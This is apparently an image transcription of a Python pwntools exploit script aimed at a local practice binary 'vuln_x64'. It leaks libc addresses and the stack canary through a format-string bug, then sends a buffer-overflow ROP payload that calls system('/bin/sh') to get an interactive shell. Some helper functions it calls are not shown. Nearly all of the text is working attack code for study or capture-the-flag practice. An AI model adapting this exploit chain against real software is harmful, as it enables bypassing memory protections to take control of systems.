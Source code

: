 

def get_system_in_glibc(libc_base):
    print("[+] system@libc has offset: {}".format(hex(libc.symbols['system'])))
    system_call = libc_base + libc.symbols['system']
    print("[+] This puts the system call to {}".format(hex(system_call)))
    return system_call


def get_bin_sh_in_glibc(libc_base):
    bin_sh = int(libc.search("/bin/sh").next())
    print("[+] /bin/sh located @ offset {}".format(hex(bin_sh)))
    shell_addr = libc_base + bin_sh
    print("[+] This puts the shell to {}".format(hex(shell_addr)))
    return shell_addr


def get_cyclic_pattern(length):
    pattern = cyclic(length)
    return pattern


def create_payload(canary, system, shell):
    junk_pattern = get_cyclic_pattern(1032)
    payload = ''
    payload += junk_pattern					# junk pattern to fill buffer
    payload += p64(canary)					# place canary at the right position
    payload += 'AAAAAAAA'					# overwrite RBP with some junk
    payload += p64(pop_rdi_ret_gadget)		# overwrite RIP with the address of our ROP gadget 
    payload += p64(shell)					# pointer to /bin/sh in libc
    payload += p64(system)					# system@glibc
    return payload


def main():
    parser = argparse.ArgumentParser(description='pwnage')
    parser.add_argument('--dbg', '-d', action='store_true')
    args = parser.parse_args()

    exe = './binaries/vuln_x64'

    format_string_leak = leak_all_the_things()

    if args.dbg:
        r = gdb.debug([exe], gdbscript="""      
                b *trustMeIAmAnEngineer+56   
                continue
                """)
    else:
        r = process([exe])

    r.recvuntil("$> ")
    r.sendline(format_string_leak)

    leak = r.recvline()

    print '[+] Format string leak:\n [%s]\n' % leak.rsplit("\n")[0]

    libc_base = get_libc_base_address(leak)
    system_call = get_system_in_glibc(libc_base)
    bin_sh = get_bin_sh_in_glibc(libc_base)
    canary = get_canary_value(leak)

    payload = create_payload(canary, system_call, bin_sh)

    r.recvuntil("$> ")
    r.sendline(payload)

    r.interactive()


if __name__ == '__main__':
    main()